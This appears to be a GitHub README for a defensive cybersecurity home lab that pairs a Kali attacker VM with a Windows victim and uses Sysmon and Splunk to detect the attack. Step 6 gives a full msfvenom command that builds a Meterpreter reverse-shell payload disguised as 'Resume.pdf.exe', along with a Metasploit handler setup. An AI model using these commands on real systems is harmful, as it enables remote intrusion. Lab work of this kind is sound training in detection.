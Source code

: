 # 🏠 Cybersecurity Home Lab

A step-by-step guide to building and practicing in your own safe cybersecurity environment.  
This project demonstrates how to set up a home lab using **VirtualBox**, simulate attacks from **Kali**, collect endpoint telemetry with **Sysmon**, and analyze it in **Splunk**.

---

## Table of Contents

- [Lab Setup Overview](#lab-setup-overview)
- [Step 1 – Create the Virtual Machines](#step-1--create-the-virtual-machines)
- [Step 2 – Verify Connectivity](#step-2--verify-connectivity)
- [Step 3 – Install Splunk on Windows](#step-3--install-splunk-on-windows)
- [Step 4 – Install and Configure Sysmon](#step-4--install-and-configure-sysmon)
- [Step 5 – Configure Splunk to Ingest Logs](#step-5--configure-splunk-to-ingest-logs)
- [Step 6 – Simulate an Attack (Kali → Windows)](#step-6--simulate-an-attack-kali--windows)
- [Step 7 – Analyze in Splunk](#step-7--analyze-in-splunk)
- [Final Results](#final-results)
- [Next Steps](#next-steps)
- [References](#references)

---

## Lab Setup Overview

- **Hypervisor**: VirtualBox  
- **Operating Systems**:  
  - Kali Linux (Attacker) – `192.168.20.11`  
  - Windows 10 (Victim) – `192.168.20.10`  
- **Network Mode**: Internal Network (isolated; no internet)  
- **Tools Installed**:  
  - Sysmon (on Windows)  
  - Splunk Enterprise (on Windows)  
  - Splunk Add-on for Sysmon (manual .spl upload)  
  - Metasploit Framework (on Kali)

---

## Step 1 – Create the Virtual Machines

1. Install **VirtualBox** on your host.  
2. Create two VMs:
   - **Kali Linux** (attacker)
   - **Windows 10** (victim)
3. Set **Network Adapter** to `Internal Network` for both VMs.  
4. Assign static IPs:
   - Windows → `192.168.20.10`
   - Kali → `192.168.20.11`

> Tip: After installing Windows from ISO, remove the ISO from the virtual CD drive (Settings → Storage) so it boots from the disk and doesn’t re-run setup.

---

## Step 2 – Verify Connectivity

From **Kali**, ping Windows:

```bash
ping 192.168.20.10
```

From **Windows**, ping Kali:

```powershell
ping 192.168.20.11
```

> If ping from Kali fails, enable the Windows Firewall rule: **File and Printer Sharing (Echo Request - ICMPv4-In)**.

---

## Step 3 – Install Splunk on Windows

1. Download **Splunk Enterprise** on the host, copy into the VM (Shared Folders/USB).  
2. Install with defaults; set admin credentials.  
3. Start Splunk and open locally in the VM:

```
http://localhost:8000
```

---

## Step 4 – Install and Configure Sysmon

1. Download **Sysmon** on the host and copy to the Windows VM.  
2. (Recommended) Use a config XML (SwiftOnSecurity or a minimal lab config).  
3. Install Sysmon (Admin PowerShell):

```powershell
Sysmon64.exe -accepteula -i C:\Tools\sysmonconfig.xml
```

4. Verify events appear in Event Viewer:  
   **Applications and Services Logs → Microsoft → Windows → Sysmon → Operational**

---

## Step 5 – Configure Splunk to Ingest Logs

1. Create an index **endpoint** in Splunk (Settings → Indexes → New Index).  
2. Create a small app to hold your inputs (recommended):

Create file:
```
C:\Program Files\Splunk\etc\apps\TA-lab-win\local\inputs.conf
```

Put this content inside:

```ini
[WinEventLog://Microsoft-Windows-Sysmon/Operational]
disabled = 0
index = endpoint
renderXml = true

[WinEventLog://Security]
disabled = 0
index = endpoint

[WinEventLog://System]
disabled = 0
index = endpoint

[WinEventLog://Application]
disabled = 0
index = endpoint

[WinEventLog://Microsoft-Windows-PowerShell/Operational]
disabled = 0
index = endpoint

[WinEventLog://Microsoft-Windows-Windows Defender/Operational]
disabled = 0
index = endpoint
```

3. Restart Splunk service:

```powershell
net stop splunkd
net start splunkd
```

4. Verify ingestion:

```spl
index=endpoint | stats count by sourcetype
```

You should see: `XmlWinEventLog:Microsoft-Windows-Sysmon/Operational` (and others you enabled).

---

## Step 6 – Simulate an Attack (Kali → Windows)

**On Kali – generate payload (64-bit, reverse TCP):**

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.20.11 LPORT=4444 -f exe -o Resume.pdf.exe
```

**Start handler in Metasploit:**

```text
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.20.11
set LPORT 4444
run
```

**Deliver & execute** `Resume.pdf.exe` on the Windows VM (via Shared Folder/USB).  
You should see a **meterpreter session** open on Kali.

> Only run the payload inside your isolated VM. Do not execute on your host.

---

## Step 7 – Analyze in Splunk

**A) Network callbacks (Sysmon Event ID 3):**

```spl
index=endpoint sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=3 dest_ip=192.168.20.11
```

**B) Malicious process creation (Sysmon Event ID 1):**

```spl
index=endpoint sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 Image="*\\Resume.pdf.exe"
```

**C) Quick sanity – ports seen:**

```spl
index=endpoint EventCode=3 | stats count by dest_port | sort - count
```

You should observe an outbound connection to your Kali machine on **port 4444** and a process creation event for `Resume.pdf.exe` (often followed by `cmd.exe`).

---

## Final Results

- **Attack simulation**: Kali generated a msfvenom payload and received a reverse shell from Windows.  
- **Detection**: Sysmon captured process creation (ID 1) and network connections (ID 3).  
- **Analysis**: Splunk searches surfaced the execution of `Resume.pdf.exe` and the callback to `192.168.20.11:4444`.

This lab demonstrates an end-to-end **attack → detect → analyze** workflow.

---

## Next Steps

- Install the **Splunk Add-on for Sysmon** (offline .spl) for richer field extraction.  
- Add a **dashboard** with panels for EventCode=1 and EventCode=3.  
- Expand the lab: honeypot (Cowrie), IDS (Zeek/Suricata), SIEM correlation, SOAR automation.

---

## References

- Sysmon: https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon  
- Sysmon Configs: https://github.com/SwiftOnSecurity/sysmon-config  
- Splunk Docs: https://docs.splunk.com/  
- Metasploit: https://www.metasploit.com/
